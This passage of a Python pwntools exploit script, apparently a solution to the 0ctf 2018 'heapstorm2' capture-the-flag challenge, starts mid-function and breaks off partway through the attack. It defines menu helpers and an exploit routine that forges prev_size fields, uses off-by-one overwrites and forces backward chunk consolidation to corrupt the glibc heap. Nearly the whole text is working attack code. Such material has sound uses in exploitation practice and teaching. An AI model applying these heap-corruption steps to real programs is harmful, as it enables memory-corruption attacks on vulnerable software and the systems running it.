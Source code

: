 ```python
    r.sendline('1')
    r.recvuntil('Size: ')
    assert(12 < size <= 0x1000)
    r.sendline('%d' % size)
    r.recvuntil('Command: ')

def update(idx, content):
    r.sendline('2')
    r.recvuntil('Index: ')
    r.sendline('%d' % idx)
    r.recvuntil('Size: ')
    r.sendline('%d' % len(content))
    r.recvuntil('Content: ')
    r.send(content)
    r.recvuntil('Command: ')

def free(idx):
    r.sendline('3')
    r.recvuntil('Index: ')
    r.sendline('%d' % idx)
    r.recvuntil('Command: ')

def view(idx):
    r.sendline('4')
    r.recvuntil('Index: ')
    r.sendline('%d' % idx)
    m = r.recvuntil('Command: ')
    pos1 = m.find(']: ') + len(']: ')
    pos2 = m.find('\n1. ')
    return m[pos1:pos2]

def exploit(host):
    global r
    port = 27164

    while True:
        # r = remote(host, port)
        r = process('./0ctf_2018_heapstorm2')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        r.recvuntil('Command: ')

        alloc(0x18)     #0
        alloc(0x508)    #1
        alloc(0x18)     #2
        update(1, 'h'*0x4f0 + p64(0x500))   #set fake prev_size

        alloc(0x18)     #3
        alloc(0x508)    #4
        alloc(0x18)     #5
        update(4, 'h'*0x4f0 + p64(0x500))   #set fake prev_size
        alloc(0x18)     #6

        free(1)
        update(0, 'h'*(0x18-12))    #off-by-one
        alloc(0x18)     #1
        alloc(0x4d8)    #7
        free(1)
        free(2)         #backward consolidate
        alloc(0x38)     #1
        alloc(0x4e8)    #2

        free(4)
        update(3, 'h'*(0x18-12))    #off-by-one
```